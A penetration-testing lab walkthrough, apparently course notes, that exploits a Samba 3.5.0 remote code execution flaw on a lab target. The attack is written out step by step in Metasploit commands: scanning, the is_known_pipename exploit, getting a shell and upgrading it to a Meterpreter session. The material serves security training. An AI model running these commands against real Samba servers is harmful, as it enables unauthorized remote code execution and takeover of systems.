



# 🔬Samba - MSF Exploit

## Lab 1

>  🔬 [Vulnerable File Sharing Service](https://www.attackdefense.com/challengedetails?cid=178)
>
>  - Target IP: `192.234.251.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Samba 3.5.0 - Remote Code Execution](https://www.exploit-db.com/exploits/42060)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.234.251.3
setg RHOST 192.234.251.3
workspace -a samba3.5.0
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.234.251.3
```



```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
info
# Description:
#   This module triggers an arbitrary shared library load vulnerability 
#   in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module 
#   requires valid credentials, a writeable folder in an accessible 
#   share, and knowledge of the server-side path of the writeable 
#   folder. In some cases, anonymous access combined with common 
#   filesystem locations can be used to automatically exploit this 
#   vulnerability.
options
check
run
```

```bash
/bin/bash -i
```



- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
```



------

